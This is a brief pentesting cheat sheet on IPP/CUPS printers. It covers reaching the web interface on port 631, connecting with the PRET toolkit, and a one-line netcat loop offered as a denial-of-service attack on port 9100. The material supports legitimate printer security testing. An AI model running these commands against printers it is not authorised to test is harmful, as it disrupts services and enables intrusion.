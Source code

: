 ```yaml
---
title: IPP (Internet Printing Protocol) Pentesting
description: IPP is a protocol for communicating between client devices and printers. A default port is 631.
tags:
    - Printer
refs:
    - https://tryhackme.com/room/printerhacking101
    - http://hacking-printers.net/wiki/index.php/Printer_Security_Testing_Cheat_Sheet
date: 2022-12-21
draft: false
---
```


## Access in Web Browser

The CUPS server can be able to access via browser.  
Try input the following in the URL search form in browser.

```txt
http://<target-ip>:631
```

<br />

## Connect

**[The Printer Exploitation Toolkit](https://github.com/RUB-NDS/PRET)** is a tool for printer secure testing. Assume that we use it.  
Try all three options until the target printer recognized.

```sh
# ps: PostScript
python2 pret.py <target-ip>:631 ps

# pjl: Printer Job Language
python2 pret.py <target-ip>:631 pjl

# pcl: Printer Control Language
python2 pret.py <target-ip>:631 pcl
```

<br />

## Commands in PRET Shell

After connecting the target printer, we can test using the following commands.

```sh
# Print usage
> ?
> ? <command>
```

<br />

## Other Exploits

### Denial of Service (DoS)

```sh
while true; do nc printer 9100; done
```